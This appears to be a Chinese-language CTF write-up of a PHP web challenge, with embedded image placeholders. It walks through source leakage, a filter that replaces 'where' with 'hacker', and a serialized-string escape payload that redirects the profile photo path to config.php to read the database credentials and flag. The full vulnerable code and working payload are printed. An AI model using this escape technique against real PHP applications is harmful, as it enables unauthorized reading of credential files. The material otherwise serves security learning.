 ![[Pasted image 20221219085611.png|500]]

---
首页长这样
![[Pasted image 20221219085636.png|200]]
试密码和`sql`注入没试出来，八成是要扫目录

![[Pasted image 20221219105158.png|500]]
下载下来
![[Pasted image 20221219113827.png|300]]
访问`/register.php`进行一个账号的注册
![[Pasted image 20221219113932.png|200]]
来到`/profile.php`，然后又跳转到`/update.php`
![[Pasted image 20221219114033.png|200]]
有一个`upload`文件夹，`update.php`可以上传图片

---
`update.php`的关键代码
```php
$username = $_SESSION['username'];
if(!preg_match('/^\d{11}$/', $_POST['phone']))
	die('Invalid phone');

if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
	die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
	die('Invalid nickname');

$file = $_FILES['photo'];
if($file['size'] < 5 or $file['size'] > 1000000)
	die('Photo size error');

move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
```
最后向`$user->update_profile`传递了经过序列化的`$profile`
`update_profile`在`class.php`中
```php
public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```
调用了`parent::filter`
```php
public function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
对序列化结果进行过滤（大喜
八成是字符串逃逸了
利用`nickname`制造逃逸，通过传递数组绕过`preg_match`
`where`是5个字符，`hacker`是6个字符，利用对`where`的过滤把`nickname`中的非法字符顶出去
目标是读取`config.php`
```php
<?php
	$config['hostname'] = '127.0.0.1';
	$config['username'] = 'root';
	$config['password'] = '';
	$config['database'] = '';
	$flag = '';
?>
```

构造`payload`
```php
<?php
	$profile['phone'] = '18888888888';
	$profile['email'] = 'somebody@host.com';
	$profile['nickname'] = array('nickname');
	$profile['photo'] = 'upload/sdfia';
	echo serialize($profile);
?>
```

> a:4:{s:5:"phone";s:11:"18888888888";s:5:"email";s:17:"somebody@host.com";s:8:"nickname";a:1:{i:0;s:8:"nickname";}s:5:"photo";s:12:"upload/sdfia";}

我们需要逃逸的内容
```
";}s:5:"photo";s:10:"config.php";}
```
长度为34
于是`payload`为
```
nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```
![[Pasted image 20221219184827.png|500]]

---
![[Pasted image 20221219184912.png|500]]

---
![[Pasted image 20221219184953.png|500]]

---
![[Pasted image 20221219185026.png|500]]

---
![[Pasted image 20221219185118.png|700]]

#Web #PHP #目录爆破 #代码审计 #反序列化 #字符串逃逸 #HTTP #编码 
